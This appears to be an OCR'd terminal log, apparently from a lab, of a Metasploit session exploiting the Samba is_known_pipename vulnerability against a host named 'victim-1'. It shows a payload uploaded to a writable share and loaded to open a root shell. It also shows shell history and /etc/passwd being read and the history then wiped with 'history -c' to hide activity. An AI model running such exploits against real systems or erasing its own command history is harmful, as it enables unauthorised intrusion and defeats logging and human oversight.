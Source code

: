 ```
root@victim-1:/root# ^C
Abort session 1? [y/N]  y
""

[*] 192.123.118.3 - Command shell session 1 closed.  Reason: User exit
msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] 192.123.118.3:445 - Using location \\192.123.118.3\exploitable\tmp for the path
[*] 192.123.118.3:445 - Retrieving the remote path of the share 'exploitable'
[*] 192.123.118.3:445 - Share 'exploitable' has server-side path '/
[*] 192.123.118.3:445 - Uploaded payload to \\192.123.118.3\exploitable\tmp\XTJGWwhn.so
[*] 192.123.118.3:445 - Loading the payload from server-side path /tmp/XTJGWwhn.so using \\PIPE\/tmp/XTJGWwhn.so...
[-] 192.123.118.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.123.118.3:445 - Loading the payload from server-side path /tmp/XTJGWwhn.so using /tmp/XTJGWwhn.so...
[+] 192.123.118.3:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 2 opened (192.123.118.2:43799 -> 192.123.118.3:445) at 2023-07-23 03:19:38 +0000

/bin/bash -i
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/tmp# history
history
    1  history
    2  cat .bash_history
    3  ls -al
    4  cat /etc/passwd
    5  history
    6  cat .bash_history
    7  history
root@victim-1:/tmp# cd ~ 
cd ~
root@victim-1:/root# cat .bash_history
cat .bash_history
history
cat .bash_history
ls -al
cat /etc/passwd
history
cat .bash_history
```

```
root@victim-1:/root# history -c
history -c
root@victim-1:/root# exit
exit
exit
exit
[*] 192.123.118.3 - Command shell session 2 closed.
```
